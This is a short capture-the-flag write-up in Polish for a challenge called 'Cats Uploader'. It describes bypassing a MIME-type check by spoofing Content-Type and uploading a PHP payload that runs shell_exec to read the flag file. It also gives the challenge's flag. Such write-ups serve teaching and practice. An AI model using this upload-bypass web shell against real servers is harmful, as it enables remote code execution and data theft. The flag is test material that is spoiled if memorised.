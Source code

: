 # Cats Uploader
![](14bcddfda4e9942c2790a6671720bb99)

Próba wysłania plik nie będącego zdjęciem, powoduje że pojawia się wiadomość `Mimetype is not image/png or image/jpeg.`. Spróbowałem więc wysłać plik ze zmienionym `Content-Type`. Aplikacja przyjeła ten plik. Napisałem złośliwy kod w PHP, który wyświetli flagę i spróbuję uruchomić w ten plik.

Kod:
```
<?php
$output = shell_exec('cat ../flag.txt');
echo "<pre>$output</pre>";
exit;
?>
```

Napisałem program, który wysyła ten kod PHP i wchodzi na miejsce, gdzie został umieszczony wykonując złośliwy kod. Program zwraca flagę.

Kod: `solution/cats.py`

Flaga: `WSIZ{a1way5_v4lidat3_m0re_th4n_ju5t_4_m1me7ype}`